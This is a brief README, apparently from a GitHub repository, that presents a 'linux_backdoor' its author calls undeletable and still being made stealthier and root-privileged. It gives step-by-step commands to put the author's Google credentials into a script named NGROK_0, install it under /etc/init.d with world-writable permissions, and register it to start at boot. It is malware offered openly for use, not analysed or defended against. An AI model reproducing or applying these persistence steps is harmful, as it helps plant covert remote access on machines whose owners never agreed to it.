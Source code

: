 # linux_backdoor
\linux backdoor , have some fanctionalites , its undeletble , i am still working to hide it and gave it root previlages
\after you download it you do this commands:
\nano NGROK_0
#change MAIL and PASSWD in line 23 , 24 , to your google email and password 
sudo mv NGROK_0 /etc/init.d/
sudo chown root:root /etc/init.d/NGROK_0
sudo chmod 777 /etc/init.d/NGROK_0
sudo update-rc.d  NGROK_0 defaults
sudo update-rc.d  NGROK_0 enable
sudo systemctl daemon-reload
sudo service start  NGROK_0
